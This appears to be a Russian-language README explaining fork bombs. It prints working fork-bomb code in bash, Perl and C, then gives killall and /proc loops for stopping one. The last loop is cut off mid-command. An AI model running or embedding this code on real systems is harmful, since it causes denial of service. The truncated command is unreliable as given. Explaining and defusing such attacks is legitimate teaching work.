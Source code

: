 # Fork Bomb #

Концепция Fork Bomb — коварная маленькая программа, которая порождает себя n-раз. 
Действует Fork bomb по весьма простому пути: для начала программа загружает себя в память, где создает несколько копий себя самой (обычно две). Далее каждая из этих копий создает столько же копий, как и оригинал, и так далее пока память не будет полностью забита, что приводит к отказу системы, ресурсы системы быстро исчерпываются. 

Структура кода Fork bomb может состоять всего лишь из 5 строчек. 
При использовании некоторых языков для написания подобного рода вредоносного ПО исключается необходимость использовать двоеточия, круглые скобки, а порой и все буквенно-цифровые символы.

## Как это работает ##

Вилочные бомбы работают как за счет использования процессорного времени в процессе разветвления, так и за счет насыщения таблицы процессов операционной системы. Базовая реализация вилочной бомбы - это бесконечный цикл, который многократно запускает новые копии самого себя.
Чтобы вывести из строя систему, они полагаются на предположение о количестве программ и процессов, которые могут выполняться одновременно на компьютере. fork () сгенерирует новый процесс, но если вы поместите этот процесс в истинный цикл, тогда он создаст много процессов, и когда предел будет превышен, ваша система потерпит крах.

## Примеры создания  Fork Bomb в Unix/Linux ##
**ВНИМАНИЕ!!!** Эти примеры могут привести к сбою вашей виртуальной машины/компьтера в случае его выполнения.
### Примеры создания  Fork Bomb с использованием bash ###

Итак, код выглядит так:

	# :(){ :|:& };:

Где:
   *	:() — Определение функции.
   *	{  — Открытие функции.
   *	:|: — Далее, загружает копию функции «:» в память тем самым, будет вызывать само себя с использованием техники программирования ( так называемая рекурсия) и передает результат на другой вызов функции.
   *	‘:’ — Худшая часть — функция, вызываемая два раза, чтобы «бомбить» вашу систему.
   *	& — Помещает вызов функции в фоновом режиме, чтобы fork (дочерний процесс) не мог «умереть» вообще, тем самым это начнет есть системные ресурсы.
   *	} — Закрытие функции.
   *	; — Завершите определение функции. Т.е является разделителем команд, (такой как и &&).
   *	: — Запускает функцию которая порождает fork bomb().
	 
Это рабочий код, но не очень читабельный. Вот пример нормального, читаемого кода:
	 
	#!/usr/bin/env bash -x
	 bomb() {
	 bomb | bomb &
	 };
	 bomb
	 
Идем дальше.

### Примеры создания  Fork Bomb с использованием perl ###

Пример встроенной оболочки с использованием интерпретатора Perl:

	# perl -e "fork while fork" &

### Примеры создания  Fork Bomb с использованием C/C++ ###

Код будет выглядеть:
	#include <unistd.h>

	int main(void)
	{
		while(1)
		fork();
	}
	
## Примеры Defusing Fork Bomb в Unix/Linux ##

Defusing — так называемое разминирование fork bomb. Из-за их характера, такие бомбы трудно оставновить после их запуска. Чтобы остановить такую бомбу, нужно  завершить все рабочие копии, чего трудно достичь. Одна из проблем заключается в том, что данная команда не может быть выполнена из-за того, что таблица процессов полностью забита. Вторая серьезная проблема заключается в том,  на момент поиска процессов для прекрашения потратилось время за которое могло создатся еще пару форков программы.

Для удаления такой бомбы, можно использовать одну из перечисленных команд:

	# killall -STOP processWithBombName
	# killall -KILL processWithBombName
	
Когда у системы мало свободных PID (в Linux максимальное количество PID-ов можно получить получено из ``` /proc/sys/kernel/pid_max ```), «разрядка» form bomb-ы становится более сложной:

	# killall -9 processWithBombName

Можно получить ошибку:

	bash: fork: Cannot allocate memory

В этом случае разрядка бомбы возможна только в том случае, если хотя бы одна оболочка открыта. Процессы могут не разветвляться, но можно выполнить любую программу из текущей оболочки. Как правило, возможна только одна попытка.

Команда «killall -9» не выполняется непосредственно из оболочки, потому что команда не является атомарной и не удерживает блокировки в списке процессов, поэтому к тому времени когда она закончится, fork bomb наплодит еще ПИДов. Поэтому нужно запустить несколько процессов killall, например:

	# while :; do killall -9 processWithBombName; done
	
Еще пример, — т.к таблица процессов достапна в Linux через ФС (/proc), то можно обезвредить данный форк бомбы с помощью встроенных функций bash, которые не требуют развертывания новых процессов.

Следующий пример идентифицирует процессы, связанные с нарушением и приостанавливает их, чтобы предотвратить данный форк, до того момента, пока они убиты по одному за раз. Это позволяет избежать состояния гонки других примеров, которые могут потерпеть неудачу, если нарушающие процессы могут развиваться быстрее, чем они убиты:

	# cd /proc && for p in [0-9]*; do read cmd < "$p/cmdline"; if [[ $cmd = processWithBombName ]]; then kill -s 
	
Как-то так!

